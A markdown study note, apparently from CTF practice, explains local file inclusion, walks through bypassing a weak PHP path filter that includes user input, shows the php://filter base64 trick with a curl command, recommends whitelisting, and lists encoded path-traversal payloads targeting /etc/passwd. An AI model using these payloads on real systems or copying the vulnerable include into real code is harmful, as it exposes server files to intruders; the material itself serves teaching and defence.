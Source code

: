 # Local File Inclusion (LFI)

- [Introduction](#introduction)
- [Filtering](#filtering)
- [PHP Filter Convert Base64 Encode](#php-filter-convert-base64-encode)
- [Whitelisting](#whitelisting)
- [Sameple Payloads](#sample-payloads)

## Introduction

Originally I thought that local file inclusion was just tricking web servers into exposing files. This vulnerability is more than just that. It also includes running files on the web server.

In some capture the flag events, these show up in web applications for a pages that show the contents of files. These pages often have a url similar to `http://target.thm/some/page?path=/var/www/html/secret.txt`.

The problem is that users can alter the path parameter and often times the server side code doesn't validate it. Nothing is stopping the user from typing `http://target.thm/some/page?path=/etc/passwd` and seeing what users are on the server.

I can attach a fuzzer to this page and try to find any and all well-know sensitive files on a server. The ability to read files on a server greatly increases the attack surface because now I can examine code and find vulnerabilties in those files as well.

## Filtering

I can't stress this enough, filtering is good but it is not an optimal solution. Time after time, developers try to filter what can be input by users and bad actors keep finding ways to bypass the filtering.

I recently finished a capture the flag event that contained a LFI vulnerability. The url was something like `http://mysite.thm/test.php?path=/var/www/html/someFile.php`. The code was printing the contents of the file in the path parameter.

I saw the path and tried to get the `/etc/passwd` contents to print to the screen. I started with `http://mysite.thm/test.php?path=/etc/password` and `http://mysite.thm/test.php?path=/var/www/html/../../../etc/passwd`. Both urls returned an error message that the provided paths were not allowed. This let me know that the server was doing some validation and the paths I provided were failing.

I decided to take another approach and view the contents of the file that I was on. I changed the url to `http://mysite.thm/test.php?path=/test.php` and saw the following contents:

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>Test page</title>
    <h1>Test Page. Do not deploy</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/someFile.php"><button>Here is a button</button></a><br>
        <?php
          function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
          }
          if(isset($_GET["path"])){
            if(!containsStr($_GET['path'], '../..') && containsStr($_GET['path'], '/var/www/html')) {
              include $_GET['path'];
            } else {
              echo 'Sorry, Thats not allowed';
            }
          }
        ?>
    </div>
</body>

</html>
```

This filtering is very similar to what a lot of developers do. Most developers would probably think that this filtering is secure. They believe they have restricted all requests to files in the `/var/www/html` directory. The problem is that this filtering is very easy to bypass.

First, I need to make sure that `/var/www/html` is part of my path and second, my path can't include `../..`. The following is a valid request that will bypass the filtering above that most developers would think is safe and display the contents of the `/etc/passwd` file:

`http://mysite.thm/test.php?path=/var/www/html/..//..//..//etc/passwd`

Linux will change the `//` to a single `/` character. That path will bypass the filtering and gloriously show the contents of `/etc/passwd` on the page.

**Again, I can't stress this enough, filtering is not enough.**

### PHP Filter Convert Base64 Encode

Sometimes the text of a file will not display correctly or it will cause a server side error when trying to render. PHP has provided a mechanism to take the content of a file and encode it using base64 so that it can be rendered.

A path is provided and PHP will take that path, read the file at the path location and convert the contents to base64 encoding. The url has the following format:

`php://filter/convert.base64-encode/resource=/encode/this/file.txt`

This url tells PHP where the file is (`resource=/encode/this/file.txt`) and what function to run on the file (`filter/convert.base64-encode`). There is also a `filter/convert.base64-decode` function to decode base64 files on a target machine with similar syntax.

If the content at `http://mysite.thm/test.php?path=/var/www/html/..//..//..//etc/passwd` was not able to render I would modify the url to:

`http://mysite.thm/test.php?path=php://filter/convert.base64-encode/resource=/var/www/html/..//..//..//etc/passwd`

I can then take that output and send it over to [CyberChef](https://gchq.github.io/CyberChef/) or use the `base64 -d` command on Linux. The command line option would look like the following:

```bash
$ curl http://mysite.thm/test.php?path=php://filter/convert.base64-encode/resource=/var/www/html/..//..//..//etc/passwd | base64 -d
Here are my contents in plain text!
```

## Whitelisting

A better approach is to check the path variable against a whitelist. That way, only approved files will have their contents shown.

So if I am expecting this url to be used with only three different files and all of them are in th the `/var/www/html` directory, I would change the resource to just take a file name instead of a whole path. If the three files where:

- players.txt
- coaches.txt
- teams.txt

Now the request just needs to check if what the user typed is in the list above. If they include any other path traversal items (../), the request will get an error response.

The main drawback to this approach is that the whitelist must be maintained. This means it is a code change if the list is hard coded in the file, files that were removed need to be removed from the whitelist and files that were added need to be included on the whitelist. However, if the list is too unweildy, it can be placed in a datastore so that a code change is not needed. Also, the security benefits of a whitelist outweigh the security drawbacks of using filtering.

## Sample Payloads

Using the url `http://mysite.thm/test.php?path=<path_goes_here>` I am going to give some different path examples. There are a lot of ways that a url can be encoded to bypass filtering and so I want to provide simple examples and ones that are specific for servers and configuration.

Here are some basic payloads that can be tried:

### `http://mysite.thm/test.php?path=../../../../etc/passwd`

This is the baseline example to show what a basic attack looks like. The slashes and dots are not encoded. If this works, I can promise that the website was not built with security in mind.

### `http://mysite.thm/test.php?path=..//..//..//etc/passwd`

This payload was mentioned in the [PHP Filter Convert Base64 Encode](#php-filter-convert-base64-encode) section earlier on this page. The double forward slash (//) becomes a single forward slash.

### `http://mysite.thm/test.php?path=.%2E/.%2E/.%2E/etc/passwd`

This payload is fantastic to get around filtering checks that are looking for a double period in the url. The interesting part is that `%2E` or `%2e` are the url encoded version of a period. So this path resolves from `.%2E/` to `../`.

### `http://mysite.thm/test.php?path=.%%32%65/.%%32%65/.%%32%65/etc/passwd`

This is the same as the previous example except it url encoded `%2E` to become `%%32%65`. Depending on how things are filtered, this can resolve to a period.
